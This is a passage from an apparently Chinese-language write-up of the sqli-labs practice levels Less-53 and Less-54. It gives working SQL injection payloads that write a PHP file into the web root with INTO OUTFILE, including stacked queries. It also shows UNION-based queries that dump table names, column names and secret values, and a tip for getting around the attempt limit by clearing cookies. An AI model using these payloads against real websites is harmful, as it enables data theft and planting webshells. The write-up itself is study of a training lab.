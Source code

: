 末尾写马、堆叠写马、盲注

```sql
?sort=0' into outfile '/var/www/html/Less-53/1.php' lines terminated by 0x3c3f3d706870696e666f28293b3f3e%23
```

```sql
?sort=0';select '<?php phpinfo();?>' into outfile'/var/www/html/Less-53/1.php'%23
```


## Less-54 


老天奶，终于到page 4了

::: tip
The objective of this challenge is to dump the (secret key) from only random table from Database ('CHALLENGES') in Less than 10 attempts
For fun, with every reset, the challenge spawns random table name, column name, table data. Keeping it fresh at all times.
:::

在挑战次数小于10次时，数据库`CHALLENGES`会根据密钥生成随机表，超过10次，会根据密钥生成随机表，随机列，随机数据

10命通关吗，有点意思

或许也可以通过使用代理、切换浏览器、清楚cookie等方式绕过服务器的次数限制，这里好像是根据cookie记录的，次数快到了清楚cookie刷新页面

测试后台闭合方式

```sql
?id=0'or 1=1%23
```

![104](/medias/sqli-labs/104.png)

2，3为回显位

![105](/medias/sqli-labs/105.png)


两个回显位，干脆一次爆表、爆字段

```sql
?id=0'union select 1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),(select group_concat(column_name) from information_schema.columns where table_schema=database())%23
```

![106](/medias/sqli-labs/106.png)


爆数据

```sql
?id=0'union select 1,2,(select group_concat(id,'-----',sessid,'-----',secret_3182,'-----',tryy) from B77BC4ZQI3)%23
```
